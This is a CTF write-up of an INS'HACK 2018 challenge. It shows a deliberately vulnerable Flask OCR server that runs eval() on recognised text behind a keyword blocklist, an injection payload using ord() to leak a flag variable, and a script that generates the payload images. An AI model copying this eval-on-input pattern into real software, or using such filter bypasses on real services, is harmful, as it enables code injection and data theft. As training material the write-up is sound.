

<style type="text/css">
	img.screenshot {
		width:85%; 
		display: block; 
		box-shadow: 1px 1px 7px #555; 
		border-radius: 5px; 
		margin : 2.5em auto 2.5em auto; 
	}
</style>


## About INS'HACK CTF

The INS'HACK CTF is a classic Jeopardy style CTF (aka Capture The Flag) held from April 5th to April 8th 2018 organized by InSecurity, a student society from INSA Lyon (France). I played with a few friends from Belgium under the team name sudo_maso. 


## Writeup

### Recon

When we connect to the website, we are offered a simple form that allows us to upload some image to be analysed by the OCR system.


As first step, I took a look at the source code of the webpage and got rewarded with a nice little hint.


The obvious move was then to take a closer look at the `/debug` endpoint :


BINGO ! A nice and clean Flask Python Server Source Code in which we can find vulnerabilities to exploit. (See [Sources](#flask-server))

### Code Review

In order to fiddle a little with the OCR process flow, I extracted and modified the core parts of what happens when we upload our image to the website and the text gets extracted.(See [Sources](#modified-flask-server)) It gets us the following : 

```python
input_text="somestringsinyourimage"

print("INPUT_TEXT : "+input_text)
formated_text = "=".join(input_text.split("\n"))
formated_text = formated_text.replace("=","==")
formated_text = sub('===+','==',formated_text)
formated_text = formated_text.replace(" ","")
print("FORMATED_TEXT : "+formated_text)

if any(i not in 'abcdefghijklmnopqrstuvwxyz0123456789()[]=+-*' for i in formated_text):
    print("Some features are still in beta !")
    sys.exit()
if formated_text.count('(') > 1 or formated_text.count(')') > 1 or formated_text.count('[') > 1 or formated_text.count(']') > 1 :
    print("We can not solve complex equations for now !")
    sys.exit()
if any(i in formated_text for i in ["import","exec","compile","tesseract","chr","os","write","sleep"]):
    print("We can not understand your equation !")
    sys.exit()
if len(formated_text) > 15:
    print("We can not solve complex equations for now !")
    sys.exit()
```

We can see that the processed text is formated (`=` and `===+` become `==`) and then passed through 4 conditionals filtering out potential dangerous keywords such as `exec`, `compile`, ...

Max length of the equation (15 characters), max occurences of parenthesis and brackets and allowed characters set are also defined through these steps.

Then, if all checks pass, both sides of the string are splitted into an array with `==` as a separator. Each side of the string is then passed in an `int(eval())` function and assigned to 2 variables :

```python
if "==" in formated_text:
    parts = formated_text.split("==",maxsplit=2)
    pa_1 = int(eval(parts[0]))
    pa_2 = int(eval(parts[1]))
    if pa_1 == pa_2:
        print("Wow, it works !")
    else:
        print("Sorry but it seems that %d is not equal to %d"%(pa_1,pa_2))
else:
    print("Please import a valid equation !")
```

I quickly realized that `eval` function woudl allow me to execute arbitrary Python functions if I managed to bypass all previous filters.

One thing that's even more interesting is this line at the beginning of the script : 

```python
x = open("private/flag.txt").read()
```

This line reads `/private/flag.txt` and stores it as a string in the `x` variable. Then if we manage to inject and execute arbitrary Python code that returns an integer representing a character, we can access this variable and recreate the flag from the output.

### Exploitation

After a few try I managed to find a working payload using `ord()` function which returns an integer representing the Unicode code point of a character :


102 which passed in `chr()` function gives us `f` which is the first letter of the string I entered in my local `/private/flag.txt`

Then I quickly generated an image with this payload and uploaded it : 




TADAAAM !

I only had to make a script (See [Sources](#payloads-generator)) that generates all the necessary payload to retrieve the flag :


Giving us the following flag : `INSA{0cr_L0ng}`

## Sources

### <a name="flask-server"></a> Flask Server Sources

```python
#!/usr/bin/python3
from flask import Flask,request,send_from_directory,render_template,abort
import pytesseract
from PIL import Image
from re import sub
from io import BytesIO
from flask_recaptcha import ReCaptcha
app = Flask(__name__)
app.config.update(
    MAX_CONTENT_LENGTH = 500 * 1024
)
recaptcha = ReCaptcha(app=app)
x = open("private/flag.txt").read()


@app.route('/',methods=['GET'])
def ind():
    return render_template("index.html")

@app.route('/debug',methods=['GET'])
def debug():
    return send_from_directory('./', "server.py")

@app.route('/equation',methods=['POST'])
def equation():
    if recaptcha.verify():
        if 'file' not in request.files:
            return render_template('result.html', result = "No file uploaded")
        file = request.files['file']
        print(file)
        if file and file.filename == '':
            return render_template('result.html', result = "No correct file uploaded")
        if file:
            input_text = pytesseract.image_to_string(Image.open(BytesIO(file.read())))
            print(input_text)
            formated_text = "=".join(input_text.split("\n"))
            formated_text = formated_text.replace("=","==")
            formated_text = sub('===+','==',formated_text)
            formated_text = formated_text.replace(" ","")
            print(formated_text)
            if any(i not in 'abcdefghijklmnopqrstuvwxyz0123456789()[]=+-*' for i in formated_text):
                return render_template('result.html', result = "Some features are still in beta !")
            if formated_text.count('(') > 1 or formated_text.count(')') > 1 or formated_text.count('[') > 1 or formated_text.count(']') > 1 :
                return render_template('result.html', result = "We can not solve complex equations for now !")
            if any(i in formated_text for i in ["import","exec","compile","tesseract","chr","os","write","sleep"]):
                return render_template('result.html', result = "We can not understand your equation !")
            if len(formated_text) > 15:
                return render_template('result.html', result = "We can not solve complex equations for now !")
            try:
                if "==" in formated_text:
                    parts = formated_text.split("==",maxsplit=2)
                    pa_1 = int(eval(parts[0]))
                    pa_2 = int(eval(parts[1]))
                    if pa_1 == pa_2:
                        return render_template('result.html', result = "Wow, it works !")
                    else:
                        return render_template('result.html', result = "Sorry but it seems that %d is not equal to %d"%(pa_1,pa_2))
                else:
                    return render_template('result.html', result = "Please import a valid equation !")
            except (KeyboardInterrupt, SystemExit):
                raise
            except:
                return render_template('result.html', result = "Something went wrong...")

@app.route('/js/<path:path>')
def send_js(path):
    return send_from_directory('js', path)

@app.route('/css/<path:path>')
def send_css(path):
    return send_from_directory('css', path)

@app.route('/img/<path:path>')
def send_img(path):
    return send_from_directory('img', path)

@app.route('/private/flag.txt')
def censorship():
    abort(403)

if __name__ == '__main__':
    app.run(host="0.0.0.0")
```

### <a name="modified-flask-server"></a>Modified Server Sources

```python
#!/usr/bin/python3
from re import sub
import sys

x = open("private/flag.txt").read()

input_text="somestringsinyourimage"

print("INPUT_TEXT : "+input_text)
formated_text = "=".join(input_text.split("\n"))
formated_text = formated_text.replace("=","==")
formated_text = sub('===+','==',formated_text)
formated_text = formated_text.replace(" ","")
print("FORMATED_TEXT : "+formated_text)

if any(i not in 'abcdefghijklmnopqrstuvwxyz0123456789()[]=+-*' for i in formated_text):
    print("Some features are still in beta !")
    sys.exit()
if formated_text.count('(') > 1 or formated_text.count(')') > 1 or formated_text.count('[') > 1 or formated_text.count(']') > 1 :
    print("We can not solve complex equations for now !")
    sys.exit()
if any(i in formated_text for i in ["import","exec","compile","tesseract","chr","os","write","sleep"]):
    print("We can not understand your equation !")
    sys.exit()
if len(formated_text) > 15:
    print("We can not solve complex equations for now !")
    sys.exit()

if "==" in formated_text:
    parts = formated_text.split("==",maxsplit=2)
    pa_1 = int(eval(parts[0]))
    pa_2 = int(eval(parts[1]))
    if pa_1 == pa_2:
        print("Wow, it works !")
    else:
        print("Sorry but it seems that %d is not equal to %d"%(pa_1,pa_2))
else:
    print("Please import a valid equation !")
```

### <a name="payloads-generator"></a>Payloads Images Generation Script

```python
#!/usr/bin/python3
# -*- coding: utf-8 -*-

from PIL import Image, ImageDraw, ImageFont

# Create images payloads
for i in range(0,20):
    payload = '2=ord(x['+str(i)+'])'
    img = Image.new('RGB', (230, 60), color = (255, 255, 255))
    fnt = ImageFont.truetype('/Library/Fonts/Arial.ttf', 40)
    d = ImageDraw.Draw(img)
    d.text((10,10), payload, font=fnt, fill=(0, 0, 0))
    img.save('payload_'+str(i)+'.png')
```
